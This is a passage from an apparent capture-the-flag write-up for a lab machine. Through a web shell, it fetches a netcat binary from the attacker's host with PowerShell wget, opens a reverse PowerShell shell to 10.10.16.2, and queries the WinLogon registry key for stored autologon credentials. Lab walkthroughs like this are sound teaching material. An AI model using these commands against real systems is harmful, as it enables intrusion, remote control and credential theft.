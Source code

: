 Archive:  netcat-win32-1.11.zip
  inflating: netcat-1.11/doexec.c    
  inflating: netcat-1.11/generic.h   
  inflating: netcat-1.11/getopt.c    
  inflating: netcat-1.11/getopt.h    
  inflating: netcat-1.11/hobbit.txt  
  inflating: netcat-1.11/license.txt  
  inflating: netcat-1.11/Makefile    
  inflating: netcat-1.11/nc.exe      
  inflating: netcat-1.11/@@@nc64.exe@@@
  inflating: netcat-1.11/netcat.c    
  inflating: netcat-1.11/readme.txt  

┌──(kali㉿kali)-[/tmp/x]
└─$ @@mv ./netcat-1.11/nc64.exe ./nc64.exe@@

┌──(kali㉿kali)-[/tmp/x]
└─$ @@sudo python3 -m http.server 80@@
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}

Next, we execute the command `powershell "wget http://10.10.16.2/nc64.exe -OutFile nc64.exe"` to download the netcat binary to the target host. This can be performed by requesting [http://internal-01.bart.htb/log/ws.php?c=powershell+"wget+http%3a//10.10.16.2/nc64.exe+-OutFile+nc64.exe"](http://internal-01.bart.htb/log/ws.php?c=powershell+"wget+http%3a//10.10.16.2/nc64.exe+-OutFile+nc64.exe").

![revShell](/assets/{{ imgDir }}/revShell.png)

Thereafter, we execute `nc -lvp 443` to start a netcat listener on port 443. The next step is to execute `.\nc64.exe -e powershell.exe 10.10.16.2 443` using the web shell by visting [http://internal-01.bart.htb/log/ws.php?c=.\nc64.exe+-e+powershell.exe+10.10.16.2+443](http://internal-01.bart.htb/log/ws.php?c=.\nc64.exe+-e+powershell.exe+10.10.16.2+443). Upon execution of this command, the listener receives a connection and we have an interacive shell on the target!


# Privilege Escalation
The [Windows registry](https://en.wikipedia.org/wiki/Windows_Registry) can be used to configure Windows for a cascade of use cases. One of these is to [configure automatic logons](https://docs.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon). This feature allows anyone to log in automatically with a preconfigured account. Credentials for this preconfigured account are usually stored under the registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon`. If we query the registry for this key, we discover that autologons are configured for the `Administrator` account!

{% highlight none linenos %}
PS C:\inetpub\wwwroot\internal-01\log> @@Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon'@@
Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon'


AutoRestartShell             : 1
Background                   : 0 0 0
CachedLogonsCount            : 10
DebugServerCommand           : no
@@@DefaultDomainName@@@            : @@@DESKTOP-7I3S68E@@@
@@@DefaultUserName@@@              : @@@Administrator@@@
DisableBackButton            : 1
EnableSIHostIntegration      : 1
ForceUnlockLogon             : 0
LegalNoticeCaption           : 
LegalNoticeText              : 
PasswordExpiryWarning        : 5
PowerdownAfterShutdown       : 0
PreCreateKnownFolders        : {A520A1A4-1780-4FF6-BD18-167343C5AF16}
ReportBootOk                 : 1